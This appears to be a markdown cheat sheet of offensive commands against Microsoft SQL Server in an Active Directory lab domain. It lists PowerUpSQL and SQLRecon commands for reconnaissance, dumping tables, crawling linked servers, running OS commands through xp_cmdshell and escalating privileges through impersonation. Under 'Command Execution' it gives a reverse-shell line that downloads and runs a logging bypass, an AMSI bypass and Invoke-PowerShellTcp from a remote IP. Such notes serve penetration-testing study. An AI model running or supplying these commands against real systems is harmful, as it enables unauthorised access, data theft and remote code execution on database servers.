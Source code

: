 ### Reconnaissance ###

#### 1. Identify Local and Domain SQL Server Instances ####
- Discover Local SQL Server Instances
`Get-SQLInstanceLocal`

- Discover Domain SQL Server Instances
`Get-SQLInstanceDomain -Verbose`

- Get Server Info for Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`

- Check Network Accessibility for Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLConnectionTest`

- List SQL Servers that use a specific domain account
`Get-SQLInstanceDomain -Verbose -DomainAccount svcadmin`

- Automate Information Gathering
`Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`

- Find the Roles that the current user has in a SQL Server Instance
`.\SQLRecon.exe /a:WinToken /h:dcorp-mssql.dollarcorp.moneycorp.local,1433 /m:whoami`

- Find users that have the *sql* string in their samaccountnames
`Get-DomainUser -Identity *SQL* | Select-Object samaccountname,cn,description`

- Find appropriately named domain groups and their members.
`Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }`

- Find MS SQL Impersonation Configurations in a SQL Server Instance
	- `.\SQLRecon.exe /a:WinToken /h:dcorp-mssql.dollarcorp.moneycorp.local,1433 /m:impersonate`

	- `Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';"`
	- `Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;"`

#### 2. Querying the Databases ####
- Find non-default Databases in Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLDatabase -NoDefaults`

- List all databases in SQL Server Instances (Local or Domain)
`Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT name FROM master.dbo.sysdatabases"`

- Get Tables from a Specific Database
	- `Get-SQLTable -Instance dcorp-mssql.dollarcorp.moneycorp.local -DatabaseName msdb`

	- `Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT table_name from master.INFORMATION_SCHEMA.TABLES"`

- List Table Columns on a Specific Database
`Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM sys.columns WHERE object_id = OBJECT_ID('dbo.spt_values')" | Select-Object name`

- Dump Table content from a Specific Database
`Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * from [master].[dbo].spt_monitor"`

#### 3. Enumerate Database Links ####
- Crawl Trusted Links
	- `Get-SQLInstanceDomain | Get-SQLServerLink`
	
	- `Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM master..sysservers"`

- Further Crawl Trusted Links using Nested Queries
	-  ```Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM master..sysservers')" | Select-Object srvname,srvproduct```
	 	 
	- ```Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM openquery(`"DCORP-MGMT`",''SELECT * FROM master..sysservers'')')" | Select-Object srvname,srvproduct```

- Recursively Crawl Trusted Links
`Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose`

- Determine Names of Linked Databases
```Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM sys.databases')" | Select-Object name```

- List all the Tables Names from a Selected Linked Database
```Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM master.sys.tables')" | Select-Object name```

- Dump Table content from a Selected Linked Database
```Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * from [master].[dbo].spt_monitor')"```

#### 4. Command Execution ####
- Enumerate current state of `xp_cmdshell`
`Get-SQLQuery -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';"`

- Execute OS commands: `xp_cmdshell`
`Invoke-SQLOSCmd -Instance dcorp-mssql.dollarcorp.moneycorp.local -Command whoami`

- Execute OS commands using Linked Databases
`Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'whoami'"`

- Get a reverse shell on a target Linked Database where `xp_cmshell` is enabled
`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.99.3/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.99.3/amsibypasscrtp.txt);iex (iwr -UseBasicParsing http://172.16.99.3/Invoke-PowerShellTcp.ps1)"''' -QueryTarget eu-sql`

#### 4. Privilege Escalation ####
- From OS admin to sysadmin via service account impersonation -> then all PowerUpSQL commands can be run as a sysadmin.
`Invoke-SQLImpersonateService -Verbose -Instance dcorp-mssql.dollarcorp.moneycorp.local`

- Run Impersonation Mode
`\SQLRecon.exe /a:windows /h:dcorp-mssql.dollarcorp.moneycorp.local,1433 /m:iwhoami /i:DEV\mssql_svc`